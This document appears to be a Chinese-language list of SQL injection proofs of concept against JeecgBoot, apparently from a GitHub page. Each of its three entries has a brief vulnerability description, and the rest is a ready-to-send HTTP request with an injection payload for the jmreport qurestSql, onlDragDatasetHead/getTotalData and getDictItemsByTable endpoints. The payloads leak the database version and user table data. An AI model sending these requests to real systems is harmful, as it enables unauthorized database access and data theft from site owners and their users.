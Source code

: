 ## Jeecg-boot 3.4.4 /sys/dict/queryTableData SQL注入  
  
在Jeecg-boot 3.4.4中曾发现分类为致命的漏洞。 此漏洞会影响未知代码文件/sys/dict/queryTableData。 手动调试的不合法输入可导致 SQL注入。  
  
  
POST /jeecg-boot/jmreport/qurestSql HTTP/1.1  
  
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US) AppleWebKit/525.13 (KHTML, like Gecko) Chrome/0.2.149.29 Safari/525.13  
  
Content-Type: application/json; charset=utf-8  
  
Content-Length: 127  
  
Host:   
  
Connection: close  
  
Accept-Encoding: gzip, deflate  
  
{"apiSelectId":"1316997232402231298","id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select md5(123456))),1)) or '%%' like '"}  
## JeecgBoot onlDragDatasetHead/getTotalData SQL注入  
  
JeecgBoot v3.7.1 通过组件 /onlDragDatasetHead/getTotalData 存在 SQL 注入漏洞。  
  
  
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/2  
  
Host:   
  
Accept-Encoding: gzip, deflate  
  
Accept: */*  
  
Accept-Language: en-US;q=0.9,en;q=0.8  
  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36  
  
Content-Type: application/json  
  
Content-Length: 281  
  
{"tableName":"sys_user","compName":"test","condition":{"filter":{}},"config":{"assistValue":[],"assistType":[],"name":[{"fieldName":"concat(0x7e,version(),0x7e)","fieldType":"string"},{"fieldName":"id","fieldType":"string"}],"value":[{"fieldName":"id","fieldType":"1"}],"type":[]}}  
## jeecg-boot-getDictItemsByTable SQL注入漏洞  
  
JeecgBoot是一款基于代码生成器的低代码开发平台，它专为简化Java项目开发流程、提高开发效率而设计。攻击者通过注入恶意的SQL代码，能够窃取、篡改或删除数据库中的数据，甚至执行系统命令，对网站和服务器造成严重影响。  
  
  
GET /jeecg-boot/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js HTTP/1.1  
  
Host:   
  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0  
  
Accept: */*  
  